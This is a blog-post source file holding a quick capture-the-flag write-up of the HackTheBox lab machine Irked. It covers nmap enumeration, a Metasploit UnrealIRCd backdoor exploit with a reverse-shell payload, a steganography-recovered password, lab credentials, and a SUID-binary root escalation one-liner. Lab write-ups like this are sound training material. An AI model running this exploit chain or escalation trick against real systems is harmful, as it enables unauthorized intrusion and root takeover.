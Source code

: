 ```yaml
---
title: "HackTheBox Irked Quick Writeup"
subtitle: "The First HackTheBox Machine I Owned"
date: 2019-03-08T13:04:23-04:00
lastmod: 2020-05-29T13:04:23-04:00
draft: false
author: "Nathan Higley"
authorLink: ""
description: ""

tags: [writeup, hackthebox, hacking]
categories: [HackTheBox, Security]

hiddenFromHomePage: false
hiddenFromSearch: false

featuredImage: ""
featuredImagePreview: ""

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""
---
```


# HackThe Box Irked Quick Guide


> MACHINE IP: 10.10.10.117




### Enumeration
>--> nmap -A -sV -p 0-66566
```ORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          53292/udp  status
|_  100024  1          57391/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57391/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd 
```

### Get Unpriviliged Shell
>msfconsole use exploit/unix/irc/unreal_irc_3201_backdoor

> set RHOSTS 10.10.10.117

> set RPORT 65534

> set payload cmd/unix/reverse

### Research

>/home/djmardov/Documents/user.txt is the location of the user text file


> uname -a
```
Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
```

> cat .backup - contents
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
### Get User Password

>Retrieve irked.jpg from the webpage 

>steghide --extract -sf irked.jpg  
```
password: UPupDOWNdownLRlrBAbaSSss
Kab6h+m+bbp2J:HG
```

## Owned User

### Credentials
>user = djmardov

>pass = Kab6h+m+bbp2J:HG


>Found /usr/bin/viewuser with root execute privileges, looks for file /tmp/listusers.

## Got Root

> Got root shell after calling /bin/bash in /tmp/listusers
 
 > Method to obtain root:
 ```
--> touch /tmp/listusers
 --> echo "/bin/bash" > /tmp/listusers 
 --> chmod 7777 /tmp/listusers 
 --> viewuser
 --> rm /tmp/listusers
 ```
 
 ### Command to Instantly Get Root
 >touch /tmp/listusers && echo "su root" > /tmp/listusers && chmod +x /tmp/listusers && viewuser
